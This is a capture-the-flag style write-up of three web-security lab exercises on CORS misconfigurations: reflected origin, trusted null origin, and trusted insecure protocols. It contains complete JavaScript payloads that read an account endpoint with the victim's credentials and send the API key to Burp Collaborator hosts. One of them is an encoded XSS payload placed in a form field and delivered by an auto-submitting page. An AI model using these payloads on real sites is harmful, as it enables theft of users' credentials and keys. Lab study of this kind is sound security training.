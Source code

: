 # Lab: CORS vulnerability with basic origin reflection

The first thing we need is to find out which resources wwill return the "Access-Control-Allow-Credentials" or "Access-Control-Allow-Origin" in order to exploit this acceptence and retrieve the admin's API key. After looking around we find that the /accountDetails return the desired cookies:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://exploit-ac991f221e40a77180f10053017a009a.web-security-academy.net
Access-Control-Allow-Credentials: true

{
  "username": "wiener",
  "email": "",
  "apikey": "bTAkQD1TJZNEwe4addvO8IXN6E0Mkbma",
  "sessions": [
    "NHIGZYXE99Hknr9RSxVwgks0Pglm8RXC"
  ]
}
```
Next we need to use this in order to relax the SOP machanism. This can be done by sending this request before the API key read like so:
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ace81f9f1ed1a796808c002f00de003e.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();


function reqListener() {
location='//sjfwiq40ukmy29m2y3kxopepsgy7mw.burpcollaborator.net/log?key='+this.responseText;
};
</script>
```

# Lab: CORS vulnerability with trusted null origin

Note that if we send the accountDetails with Origin: null we get:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

{
  "username": "wiener",
  "email": "",
  "apikey": "7N5RtvnH051NW4AUKG1t0Op95F7tjsUw",
  "sessions": [
    "zj6zHj1zvowaydhulr1xD87JEoTtWwKd"
  ]
}
```

:Using the Iframe technique to execute the call to accountDetails with an Origin: null in order to get the relaxation for SOP:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://acf01f931f1adfe380c04890007200bb.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://vqplle5qte9nzasa3mi75wk1rsxkl9.burpcollaborator.net/log?key='+this.responseText;
};</script>"></iframe>
```

# Lab: CORS vulnerability with trusted insecure protocols

We first need to find the MITM target to insert our script to. Note that the check stock request is for HTTP and is vulnerable to XSS (productId can be html and it will be embedded in the page).
We then construct the script that the victim's browser will execute (from a valid origin and CORS) like so:

```html
<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://ac7e1f0b1fc1ccd980822389001000f7.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='http://69dxye6i0e0v66jydjfhs1rxmosfg4.burpcollaborator.net/log?key='+this.responseText;};</script>
```
Encoded to:
```http
%3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%61%63%37%65%31%66%30%62%31%66%63%31%63%63%64%39%38%30%38%32%32%33%38%39%30%30%31%30%30%30%66%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%36%39%64%78%79%65%36%69%30%65%30%76%36%36%6a%79%64%6a%66%68%73%31%72%78%6d%6f%73%66%67%34%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%6c%6f%67%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e
```
Now we can construct the html for the victim that will trigger our request for the API from the user with the right CORS creds. The final HTML is:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://stock.ac7e1f0b1fc1ccd980822389001000f7.web-security-academy.net/">
      <input type="hidden" name="productId" value="&lt;script&gt;var&#32;req&#32;&#61;&#32;new&#32;XMLHttpRequest&#40;&#41;&#59;req&#46;onload&#32;&#61;&#32;reqListener&#59;req&#46;open&#40;&apos;get&apos;&#44;&apos;https&#58;&#47;&#47;ac7e1f0b1fc1ccd980822389001000f7&#46;web&#45;security&#45;academy&#46;net&#47;accountDetails&apos;&#44;true&#41;&#59;req&#46;withCredentials&#32;&#61;&#32;true&#59;req&#46;send&#40;&#41;&#59;function&#32;reqListener&#40;&#41;&#32;&#123;location&#61;&apos;http&#58;&#47;&#47;69dxye6i0e0v66jydjfhs1rxmosfg4&#46;burpcollaborator&#46;net&#47;log&#63;key&#61;&apos;&#43;this&#46;responseText&#59;&#125;&#59;&lt;&#47;script&gt;" />
      <input type="hidden" name="storeId" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
